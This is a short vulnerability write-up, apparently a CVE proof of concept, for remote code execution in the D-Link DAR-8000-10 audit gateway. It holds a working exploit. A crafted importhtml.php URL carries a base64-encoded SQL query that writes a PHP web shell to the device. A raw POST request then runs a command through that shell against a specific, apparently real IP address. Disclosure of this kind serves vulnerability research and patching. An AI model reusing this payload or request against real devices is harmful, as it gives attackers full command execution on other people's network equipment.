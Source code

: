 The D-LINK-DAR-8000-10 Online behavior audit gateway has rce vulnerabilities

official website:http://www.dlink.com.cn/

version:D-LINK  DAR-8000-10

See the login page.

![WPS图片(1)](https://github.com/PumpkinBridge/cve/assets/139355470/5bb966de-afbf-45cd-925c-13dd00550896)
Construct url:
https://ip:port/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
After downloading
Then execute poc:
```
POST /app/sys1.php HTTP/1.1
Host: 60.22.74.195:8443
Cookie: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

cmd=id
```
![WPS图片(2)](https://github.com/PumpkinBridge/cve/assets/139355470/323aa964-8918-48f9-8b22-870457737654)
